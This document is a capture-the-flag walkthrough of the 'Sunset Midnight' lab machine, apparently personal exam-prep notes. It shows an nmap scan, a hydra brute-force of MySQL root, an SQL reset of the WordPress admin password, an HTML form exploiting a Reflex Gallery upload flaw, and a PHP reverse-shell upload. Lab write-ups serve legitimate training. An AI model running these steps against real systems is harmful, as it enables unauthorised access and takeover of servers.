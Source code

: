 #### Enumeration

```
# Nmap 7.92 scan initiated Sun Feb 27 00:15:18 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/AutoRecon/results/192.168.128.88/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/AutoRecon/results/192.168.128.88/scans/xml/_full_tcp_nmap.xml 192.168.128.88
Warning: 192.168.128.88 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.128.88
Host is up, received user-set (0.28s latency).
Scanned at 2022-02-27 00:15:18 EST for 1752s
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:fe:0b:8b:8d:15:e7:72:7e:3c:23:e5:86:55:51:2d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCm5CuyxbQ0hflsMDQe6CKt3H41UNbqR/7dqfRp2OkKxsOZ8sM0gHgGPU41j+b6ByHnkBSYi+NEIV+VXcnpGraaGhn/3mjF5uvgVdei5n2O9ZgX6Vuefk4o6Q3DL2DsEtOCaepPimfSX1TetQUjWc8f9ciax4Za5FdCjZL/L1eV211Aidf93iROG7y6GUzRyMGBGQTPUnZK39dTmJEpo+qprHmv2LCG84azdXwTGR1YilTVtrgnkMUyrq6gnuins4fxLkm5OwnznuL8nQgIWfH9I0YGuFkqf3pR1VHFeaOJnFMh9XfH58/BzlzLVtcaKYP45ARztIouRVtgHseXmW7X
|   256 fe:eb:ef:5d:40:e7:06:67:9b:63:67:f8:d9:7e:d3:e2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOByIes6+atfEdAfAg4dy8LGa1TrPSa7sVSWSkEc5X+/932xaylSrtw/EvgKnGFW4zxSDNywRWtsJ6PN2iTRujQ=
|   256 35:83:68:2c:33:8b:b4:6c:24:21:20:0d:52:ed:cd:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILUvvXW/tfdzAPwVMpeX7n7D3ObXCvVg2fpFsKc3htfy
80/tcp    open     http           syn-ack     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3306/tcp  open     mysql          syn-ack     MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 3084
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, LongColumnFlag, Support41Auth, Speaks41ProtocolOld, ODBCClient, SupportsTransactions, ConnectWithDatabase, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, FoundRows, SupportsLoadDataLocal, SupportsCompression, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: D-S:h|X">Rd|c\&Ejf?G
|_  Auth Plugin Name: mysql_native_password
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
3886/tcp  filtered nei-management no-response
3906/tcp  filtered topovista-data no-response
5693/tcp  filtered rbsystem       no-response
15603/tcp filtered unknown        no-response
21709/tcp filtered unknown        no-response
25388/tcp filtered unknown        no-response
26534/tcp filtered unknown        no-response
28728/tcp filtered unknown        no-response
36844/tcp filtered unknown        no-response
37564/tcp filtered unknown        no-response
39569/tcp filtered unknown        no-response
40948/tcp filtered unknown        no-response
45677/tcp filtered unknown        no-response
46313/tcp filtered unknown        no-response
47401/tcp filtered unknown        no-response
50113/tcp filtered unknown        no-response
50225/tcp filtered unknown        no-response
50364/tcp filtered unknown        no-response
53270/tcp filtered unknown        no-response
61622/tcp filtered unknown        no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 00:44:30 2022 -- 1 IP address (1 host up) scanned in 1752.38 seconds

```

Browsing to port 80 HTTP service through IP address fails and it returns a domain name ```sunset-midnight```. We need to modify DNS settings first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h44m48s_001.png)

We add a DNS rule in ```/etc/hosts``` file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h49m45s_002.png)
 
Browsing to port 80 HTTP service again, and this time we see a webpage built with WordPress.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_13h54m51s_003.png)

The WordPress plugin we find is ```Simply Poll``` but its real version is 1.5, not 1.4.1 which has a vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h06m07s_004.png)

After a lot of searching, I can't find the breakthrough of the WordPress website. So I move to port 3306 and try to brute-force database password.

I try to use the account ```wordpress``` but fail. [(*understanding max_connect_errors*)](https://www.virtual-dba.com/blog/mysql-max-connect-errors/)

```
hydra -l root -P ~/Documents/rockyou.txt -s 3306 -t 4 -f 192.168.128.88 mysql
```

Change the account to root to try and we successfully get the password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h49m01s_005.png)

Browsing to WordPress database we We can change the password to ```admin123```.

```
UPDATE wp_users SET user_pass = MD5('admin123') WHERE ID = '1';
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h52m50s_006.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h53m03s_007.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h53m26s_008.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_15h54m55s_009.png)

Logging in to WordPress dashboard. We can [upload and activate a malicious plugin](https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#uploading-and-activating-malicious-plugin).

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h10m32s_010.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h11m44s_011.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h13m11s_012.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h13m34s_013.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h18m32s_014.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h22m38s_015.png)

According to the [exploit](https://www.exploit-db.com/exploits/36374) instructions we create an html file for uploading.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h23m25s_016.png)

```html
<form method="POST" action="http://sunset-midnight/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2022&Month=02" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h24m19s_017.png)

Now let's prepare a [php file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) with the reverse shell command.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h29m08s_018.png)

Use firefox to open our test.html file and upload the php malicious file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h32m46s_019.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h33m10s_020.png)

Start listening to 80 port and browse to the address indicated by the vulnerability.

```
http://sunset-midnight/wp-content/uploads/2022/02/php-reverse-shell.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h34m54s_021.png)

#### Priviledge Escalation

Checking the ```wp-config.php``` first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h52m27s_022.png)

Trying to use the credential to login through ssh.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_16h56m00s_023.png)

We find an unknown binary in the scan results of linpeas.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_17h00m41s_024.png)

Checking this unknown binary reveals that it executes a command with an unspecified path.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_17h03m46s_025.png)

We create our service to run the malicious code.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/SunsetMidnight/SunsetMidnight_2022.02.27_17h09m59s_026.png)
